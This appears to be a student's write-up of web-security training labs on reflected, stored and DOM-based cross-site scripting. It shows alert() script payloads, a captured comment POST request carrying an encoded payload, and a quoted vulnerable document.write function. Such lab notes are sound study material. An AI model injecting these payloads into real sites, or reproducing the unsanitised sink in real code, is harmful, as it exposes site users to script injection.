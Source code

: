 # Reflected XSS

## Lab - 1: Reflected XSS into HTML context with nothing encoded

In search box,

```html
<script>
  alert("1");
</script>
```

---

# Stored XSS

## Lab - 2: Stored XSS into HTML context with nothing encoded

```
POST /post/comment HTTP/1.1
...
Origin: https://0a9c00f604e0a6f0c00e599c007c00b2.web-security-academy.net
Referer: https://0a9c00f604e0a6f0c00e599c007c00b2.web-security-academy.net/post?postId=2
...

csrf=uY2QyKgwlEKbIVZ48E3IhL7SDUKM0yug&postId=2&comment=%3Cscript%3Ealert%282%29%3B%3C%2Fscript%3E&name=Test&email=test%40gmail.com&website=
```

- `<script>alert(2);</script>`

---

# DOM XSS

## Lab - 3: DOM XSS in document.write sink using source location.search

- This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

- The vulnerable JS function used in this lab is

```javascript
function trackSearch(query) {
  document.write(
    '<img src="/resources/images/tracker.gif?searchTerms=' + query + '">'
  );
}
var query = new URLSearchParams(window.location.search).get("search");
if (query) {
  trackSearch(query);
}
```

